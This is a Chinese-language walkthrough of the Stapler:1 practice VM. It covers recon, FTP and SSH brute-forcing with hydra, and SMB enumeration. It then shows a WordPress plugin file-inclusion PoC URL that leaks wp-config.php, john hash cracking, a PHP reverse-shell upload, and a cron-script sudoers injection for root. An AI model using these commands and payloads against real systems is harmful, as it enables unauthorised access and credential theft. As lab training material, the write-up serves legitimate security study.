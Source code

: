 # 一、环境配置

1. 导入ovf时报错，修复方法参考这篇文章：[VMware 导入 ovf 文件格式异常报错之探解](https://ciphersaw.me/2021/07/10/exploration-of-file-format-exception-while-vmware-loads-ovf/)
2. 修该调整ovf文件中所有的\<rasd:Caption>元素与\<rasd:Description>元素的位置，使其中的元素按字母顺序排列
3. 重新计算其sha-1散列值，并在Stapler.mf 文件中替换，否则无法通过文件完整性校验
    ![1.png](./img/Stapler-1/1.png)
    ![2.png](./img/Stapler-1/2.png)
4. 再次导入ovf就不会报错了，注意保持kali的网卡模式与靶机一致

# 二、信息收集

1. 主机发现，如下，192.168.88.128就是靶机
   
   ```shell
   sudo arp-sccan -l
   ```
   
    ![3.png](./img/Stapler-1/3.png)

2. 端口扫描，如下，开放了20、21、53、80、139、666、3306、12380端口，其中21端口ftp允许匿名登录，139端口smb允许guest，版本4.3.9，系统为ubuntu，web服务为PHP cli server 5.5 or later
   
   ```shell
   sudo nmap -A -n -sT -sV -O -p- 192.168.88.128
   ```
   
    ![4.png](./img/Stapler-1/4.png)

3. nmap扫描一下主机漏洞，如下，发现smb存在漏洞
   
   ```shell
   nmap --script=vuln 192.168.88.128
   ```
   
    ![5.png](./img/Stapler-1/5.png)

4. 扫描一下web目录，发现有.bash_logout、.bashrc、.profile文件
   
   ```shell
   dirsearch -u "http://192.168.88.128" -r -i 200,301,302
   ```
   
    ![6.png](./img/Stapler-1/6.png)

# 三、getshell

## （一）ftp未授权访问

1. ftp匿名登录
   
    ![7.png](./img/Stapler-1/7.png)
    ![8.png](./img/Stapler-1/8.png)

2. ls查看存在的文件，发现存在一个note文件
    ![9.png](./img/Stapler-1/9.png)

3. 查看note文件内容，发现存在一个用户名Elly
    ![10.png](./img/Stapler-1/10.png)

4. 将Elly、elly保存到一个txt文件中，使用hydra进行爆破，爆破出ftp口令elly/ylle，可以看出用户名与密码是逆序的
   
   ```shell
   hydra -L ftp_user_name.txt -e nsr ftp://192.168.88.128
   ```
   
    ![11.png](./img/Stapler-1/11.png)

5. 使用该口令登录ftp，ls发现文件挺多仔细一分析发现似乎都是/etc下的文件，也就是说ftp挂在在/etc下
    ![12.png](./img/Stapler-1/12.png)

6. 将passwd文件get下来，查看内容，将其中有登录权限的用户复制出来
    ![13.png](./img/Stapler-1/13.png)

7. 使用hydra对上面复制出来的用户名进行ssh爆破，如下，成功爆破出弱口令
    ![14.png](./img/Stapler-1/14.png)

8. 使用爆破出来的口令进行ssh连接，成功获取shell
   
   ```shell
   ssh -oHostKeyAlgorithms=+ssh-dss SHayslett@192.168.88.128
   ```
   
    ![15.png](./img/Stapler-1/15.png)

## （二）smb共享漏洞

1. 使用enum4linux进行smb漏洞利用，将结果保存到smb_result.txt，发现存在共享目录，同样探测出了一批可登录的用户名
   
   ```shell
   enum4linux -a 192.168.88.128 | tee smb_result.txt
   ```
   
    ![16.png](./img/Stapler-1/16.png)
   
    ![17.png](./img/Stapler-1/17.png)

2. 使用上面发现的用户名进行爆破，结果与上面ftp的相同，使用smbclient登录smb共享目录tmp
   
   ```shell
   smbclient -N //192.168.88.128/tmp
   ```
   
    ![18.png](./img/Stapler-1/18.png)

3. 发现有一个ls文件，get下来，发现是一个时间同步的文件
    ![19.png](./img/Stapler-1/19.png)

4. 查看另一个smb共享目录，发现有两个目录
   
   ```shell
   smbclient -N //192.168.88.128/kathy
   ```
   
    ![20.png](./img/Stapler-1/20.png)

5. cd进去看看，发现kathy_stuff目录下有一个todo-list.txt文件，backup目录下有一个vsftpd.conf文件和一个wordpress-4.tar.gz源码压缩包

## (三)wordpress getshell

1. 访问12380端口，发现是一个网站，访问robots.txt文件，发现有两个目录
    ![21.png](./img/Stapler-1/21.png)

2. 访问admin112233目录，是个弹窗，估计可能有彩蛋
    ![22.png](./img/Stapler-1/22.png)

3. https访问blogblog目录，发现是个wordpress的网站，这个网站估计就是用上面发现的源码搭建的
    ![23.png](./img/Stapler-1/23.png)

4. 访问wp-content目录，发现有目录遍历，有plugins插件目录
    ![24.png](./img/Stapler-1/24.png)

5. 访问plugins目录发现有video插件
    ![25.png](./img/Stapler-1/25.png)
    ![26.png](./img/Stapler-1/26.png)

6. 搜索video embed插件的漏洞，发现有一个文件包含漏洞
    ![27.png](./img/Stapler-1/27.png)

7. 使用poc读取wp-config.php配置文件，执行poc后会在uploads下生成一个img图片
   
   ```shell
   http://192.168.88.128：12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
   ```
   
    ![28.png](./img/Stapler-1/28.png)

8. 将该图片下载下来，cat查看发现就是wp-config.php的内容，得到mysql的root口令root/plbkac
   
   ```shell
   wget --no-check-certificate https://192.168.88.128:12380/blogblog/wp-content/uploads/1905091353.jpeg
   ```
   
    ![29.png](./img/Stapler-1/29.png)

9. 使用该口令登录phpmyadmin，在wordpress库中的wp_user中发现一批用户名密码，看起来与上面获取到的passwd中可登录用户差不多
    ![30.png](./img/Stapler-1/30.png)

10. 将用户名密码复制出来，使用john的rockyou.txt进行破解，破解速度比较慢
    
    ```shell
    cd /usr/share/wordlists
    sudo gunzip rockyou.txt.gz
    
    cd /home/kali/vuln/Stapler-1
    john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
    ```
    
    ![31.png](./img/Stapler-1/31.png)

11. 使用John/incorrect登录wordpress后台，发现是管理权限，使用新增插件插件功能上传一个反弹shell的php文件，然后访问该文件即可获取shell    

# 四、权限提升

## （一）peter用户获取root权限

1. 使用grep命令查找用户密码，发现几个用户的密码
   
   ```shell
   grep -R -i pass /home/* 2>/dev/null
   ```
   
    ![32.png](./img/Stapler-1/32.png)

2. 使用peter用户登录，发现peter用户就有root权限，sudo su获取root权限
    ![33.png](./img/Stapler-1/33.png)

## （二）内核提权

1. 查看系统内核版本
   
    ![34.png](./img/Stapler-1/34.png)

2. 搜索linux kernerl 4.4.x，发现有一个符合ubuntu的提权漏洞
    ![35.png](./img/Stapler-1/35.png)

3. 由于我的kali在仅主机模式的网络下断网了，这个方法没有成功

## (三)计划任务提权

1. 查看计划任务，写入一条命令给SHayslett或其它获取了shell的用户添加root权限，等待一会后，执行sudo su即可获取root权限
   
   ```shell
   ls -al /etc/cron.d
   echo 'echo "SHayslett ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/sbin/cron-logrotate.sh
   ```
   
    ![36.png](./img/Stapler-1/36.png)
